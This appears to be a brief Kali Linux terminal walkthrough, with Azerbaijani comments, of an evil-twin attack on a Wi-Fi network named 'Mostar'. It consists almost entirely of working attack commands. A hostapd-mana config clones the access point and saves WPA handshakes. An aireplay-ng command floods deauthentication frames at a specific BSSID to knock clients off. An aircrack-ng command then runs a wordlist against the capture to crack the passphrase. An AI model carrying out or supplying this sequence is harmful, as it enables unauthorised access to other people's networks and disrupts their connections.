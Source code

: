 kali@kali:~$ cat Mostar-mana.conf
```
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
```

kali@kali:~$ sudo hostapd-mana Mostar-mana.conf 

ise salan kimi clientleri ayirib, tezeden qosulmaga mecbur eliyirik

kali@kali:~$ sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon


aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst

sonrada sindir getsin
